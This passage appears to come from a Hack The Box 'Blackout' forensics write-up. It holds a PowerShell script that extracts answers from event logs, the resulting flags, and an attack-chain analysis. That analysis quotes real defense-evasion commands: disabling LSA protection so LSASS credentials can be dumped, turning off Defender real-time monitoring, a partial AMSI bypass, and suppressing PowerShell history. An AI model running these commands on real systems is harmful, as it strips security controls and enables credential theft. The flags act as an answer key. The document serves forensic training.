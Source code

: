 ```powershell
$q4 = $rebootLines | ForEach-Object { 
    $_.Trim('"') -replace '^.*[\\\/]', '' -replace '(?i)\.exe$','' 
} | Select-Object -First 1

# Q5 – PSReadLine history suppression
$q5 = $psEvents | Where-Object { 
    $_.Message -match 'Set-PSReadLineOption' 
} | ForEach-Object {
    ($_.Message -split "`r?`n") | Where-Object { 
        $_ -match 'Set-PSReadLineOption' 
    }
} | Select-Object -First 1

Write-Host "`n`e[1mFlags:`e[0m"
Write-Host "Q1 $q1"
Write-Host "Q2 $q2"
Write-Host "Q3 $q3"
Write-Host "Q4 $q4"
Write-Host "Q5 $q5`n"
```

### Execution Results

```powershell
PS C:\HTB\Blackout> .\answer-questions.ps1

Flags:
Q1 HKLM\SYSTEM\CurrentControlSet\Control\Lsa\RunAsPPL
Q2 Set-MpPreference
Q3 AmsiScanBuffer
Q4 bcdedit /set safeboot network
Q5 Set-PSReadLineOption -HistorySaveStyle SaveNothing
```

## Attack Chain Analysis

### 1. LSA Protection Bypass
```powershell
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v RunAsPPL /t REG_DWORD /d 0
```
**Purpose:** Disables LSA Protection to allow credential dumping tools to access LSASS process.

### 2. Windows Defender Tampering
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```
**Purpose:** Disables real-time monitoring in Windows Defender to evade detection.

### 3. AMSI Bypass
```powershell
# Patch AmsiScanBuffer function in amsi.dll
$AmsiUtils = [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
$AmsiContext = $AmsiUtils.GetField('amsiContext', 'NonPublic,Static')
[IntPtr]$ptr = $AmsiContext.GetValue($null)
```
**Purpose:** Patches the AmsiScanBuffer function to bypass Antimalware Scan Interface.
